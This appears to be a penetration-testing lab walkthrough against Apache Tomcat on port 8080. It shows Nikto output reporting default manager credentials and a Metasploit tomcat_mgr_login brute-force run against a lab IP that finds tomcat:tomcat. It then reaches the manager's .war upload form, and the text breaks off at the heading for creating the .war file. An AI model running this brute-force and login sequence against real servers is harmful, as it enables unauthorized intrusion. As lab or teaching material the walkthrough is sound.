 # Exploting Tomcat on Port 8080

From our earlier Nmap and Nikto scans we have identified Tomcat as runnning on Port 8080.
```
+ /: Appears to be a default Apache Tomcat install.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 'tomcat'). Apache Tomcat.
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /host-manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
```

## Attempt to Bruteforce authentication credentials using MetaSploit
Load up MetaSploit console and select the tomcat manager login module
`msf > use auxiliary/scanner/http/tomcat_mgr_login `

Show the options and supply the required information
```
Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                            yes       The target address range or CIDR identifier
   RPORT             8080                                                                            yes       The target port
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads
   USERNAME                                                                                          no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host

```

### Type `run`
```
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:admin (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:manager (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:role1 (Incorrect: )
[-] 172.31.6.2:8080 TOMCAT_MGR - LOGIN FAILED: tomcat:root (Incorrect: )
[+] 172.31.6.2:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## Use the Acquired Authentication credentials and login
* In a url modify the string in the address bar:

* Enter the authentication credentials discovered in the msf scan
![alt tag](https://user-images.githubusercontent.com/8903296/29285537-b60635f0-8126-11e7-926b-2cce147e56ec.PNG)

Scroll down the page and you will find a form that allows users to upload .war files
![alt tag](https://user-images.githubusercontent.com/8903296/29288490-d7b18ea2-8130-11e7-8cf0-3606619cc82b.PNG)

## Create the .war file
